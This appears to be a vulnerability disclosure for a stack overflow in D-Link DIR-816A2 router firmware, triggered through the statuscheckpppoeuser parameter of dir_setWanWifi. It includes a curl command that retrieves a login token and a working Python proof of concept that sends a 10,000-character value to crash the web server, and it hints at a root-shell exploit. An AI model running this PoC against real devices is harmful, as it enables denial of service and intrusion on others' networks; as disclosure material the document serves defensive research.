 # Affected Version
Dlink DIR-816A2_FWv1.10CNB05
# Vulnerability Description
Dlink DIR-816A2_FWv1.10CNB05 was discovered to contain a stack overflow via parameter statuscheckpppoeuser in dir_setWanWifi.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/AllPro.aspx

# Vulnerability Details
When the program processes parameter statuscheckpppoeuser, it uses the size of the parameter string as maxlen, which will cause a buffer overflow.  
![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/dir_setWanWifi/0.png)


As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
We need to get the tokenid first  
<pre>
curl http://192.168.0.1/dir_login.asp | grep tokenid
</pre>
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of goahead process.  

<pre>
import requests

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = 'xxx'

url = 'http://192.168.0.1/goform/dir_setWanWifi'

data = {
    'tokenid' : tokenid,
    'statuscheckpppoeuser' : 'a' * 10000, 
    'connecttype' : '1'
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
</pre>

![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/dir_setWanWifi/1.png)  

And you can write your own exp to get the root shell.